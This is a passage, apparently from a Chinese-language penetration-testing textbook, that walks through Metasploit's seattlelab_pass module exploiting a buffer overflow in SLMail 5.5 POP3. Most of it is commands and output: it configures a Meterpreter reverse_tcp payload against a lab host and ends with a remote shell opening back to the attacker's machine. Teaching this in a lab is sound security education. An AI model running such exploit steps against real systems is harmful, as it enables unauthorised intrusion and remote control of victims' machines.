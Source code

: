 *Windows/pop3/seattlelab_pass* 试图利用 POP3 服务器中的缓冲区溢出漏洞。使用它与设置 MS08-067 漏洞类似，如示例 8-5 所示。

示例 8-5。利用 Metasploit 攻击 SLMail 5.5 POP3

```
msf > **use windows/pop3/seattlelab_pass**
msf  exploit(seattlelab_pass) > **show payloads**

Compatible Payloads
===================

   Name                                         Disclosure Date  Rank    Description
   ----                                         ---------------  ----    -----------
   generic/custom                                                normal  Custom Payload
   generic/debug_trap                                            normal  Generic x86 Debug Trap
--*snip*--

msf  exploit(seattlelab_pass) > **set PAYLOAD windows/meterpreter/reverse_tcp**
PAYLOAD => windows/meterpreter/reverse_tcp
msf  exploit(seattlelab_pass) > **show options**

Module options (exploit/windows/pop3/seattlelab_pass):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.20.10    yes       The target address
   RPORT  110              yes       The target port

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process, none
   LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows NT/2000/XP/2003 (SLMail 5.5)

msf  exploit(seattlelab_pass) > **set RHOST 192.168.20.10**
RHOST => 192.168.20.10
msf  exploit(seattlelab_pass) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(seattlelab_pass) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
[*] Trying Windows NT/2000/XP/2003 (SLMail 5.5) using jmp esp at 5f4a358f
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 4 opened (192.168.20.9:4444 -> 192.168.20.10:1566) at 2015-01-07 19:57:22 -0500

meterpreter >
```
